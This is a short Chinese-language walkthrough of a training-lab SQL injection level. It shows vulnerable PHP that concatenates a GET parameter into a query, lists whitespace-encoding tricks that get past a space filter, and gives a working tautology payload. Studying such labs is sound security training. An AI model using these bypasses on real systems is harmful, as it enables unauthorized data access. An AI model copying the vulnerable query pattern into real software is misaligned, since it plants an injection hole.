

# sql2

进入example2.php

源码
```php
<?php
  require_once('../header.php');
  require_once('db.php');

        if (preg_match('/ /', $_GET["name"])) {
                die("ERROR NO SPACE");
        }
        $sql = "SELECT * FROM users where name='";
        $sql .= $_GET["name"]."'";

        $result = mysql_query($sql);
        if ($result) {
                ?>
                <table class='table table-striped'>
      <tr><th>id</th><th>name</th><th>age</th></tr>
                <?php
                while ($row = mysql_fetch_assoc($result)) {
                        echo "<tr>";
                        echo "<td>".$row['id']."</td>";
                        echo "<td>".$row['name']."</td>";
                        echo "<td>".$row['age']."</td>";
                        echo "</tr>";
                }
                echo "</table>";
        }
  require '../footer.php';
?>
```

这里使用了**preg_match('/ /')**来过滤了空格
可以使用以下方式来绕过过滤
>  * %09    TAB键
* %0a    新建一行
* %0c    新的一页
* %0d    return功能
* %0b    TAB键(垂直)
* %a0    空格
* /**/    多行注释

| 请求方式 | 过滤方式 | 注入方式 | 闭合方式 |
| -------- | -------- | -------- | -------- |
| GET      | 过滤空格 | 万能密码 | 单引号'  |

payload
```sql
example2.php?name='%0bor%a01=1%23
```

拿到数据

过关！
